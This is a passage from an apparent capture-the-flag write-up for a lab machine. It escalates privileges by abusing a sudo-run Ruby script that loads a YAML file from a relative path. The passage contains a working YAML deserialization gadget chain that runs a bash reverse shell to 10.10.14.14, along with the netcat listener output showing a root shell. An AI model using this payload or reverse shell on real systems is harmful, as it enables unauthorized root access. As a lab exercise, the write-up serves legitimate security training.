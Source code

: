 ```console

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

`dependencies.yml` is a relative path => create a malicious yaml file with command injection of revshell

- [Ruby Privilege Escalation | Exploit Notes (hdks.org)](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/)

```console
henry@precious:/dev/shm$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'"
         method_id: :resolve
henry@precious:/dev/shm$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found

----------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 58976
root@precious:/dev/shm# id
id
uid=0(root) gid=0(root) groups=0(root)
```